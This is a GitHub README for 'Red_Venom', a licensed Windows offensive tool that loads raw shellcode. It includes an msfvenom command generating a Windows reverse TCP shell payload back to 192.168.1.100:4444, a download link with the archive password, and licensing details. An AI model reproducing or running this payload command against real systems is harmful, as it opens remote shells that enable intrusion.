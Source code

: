 
## 🔄 Compatibility

Red_Venom is compatible with raw shellcode generated by tools like `msfvenom`. Example:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 EXITFUNC=thread -o payload.bin
```
---
## ⚙️ Installation

### 📋 Prerequisites

- **Windows 10 or 11 (64-bit)**
- **Valid License Key** — required to activate and use the tool

> ⚠️ **Red_Venom is a licensed tool**.
> Unauthorized use or redistribution is prohibited.
---

## 📦 Download

You can download the latest official release of **RED_VENOM** from the link below:

🔗 [**Download Red_Venom (Latest Version)**](https://github.com/Y-JANBOUBI/Rrd_Venom/releases/download/v1.0/Red_Venom.7z) 

---

### 🧪 Getting Started

1. Download `RED_VENOM` from the link above.
2. Unzip and Launch `RED_VENOM.exe`. Password: `Red_Venom` 
3. When prompted, enter your **activation key**.
4. Once activated, the tool will run normally on your device.
---

## 🔐 Licensing & Activation

RED_VENOM requires a valid license key to function.  
To request a license key or for licensing inquiries, please contact the developer directly or support.

📩 **Support Email:** `rsredvenom@gmail.com`

---

## ⚖️ Legal & Ethical Use

- **Authorized Environments Only**
- **Do Not Use for Malicious Activity**
- **Follow Local Laws and Regulations**

---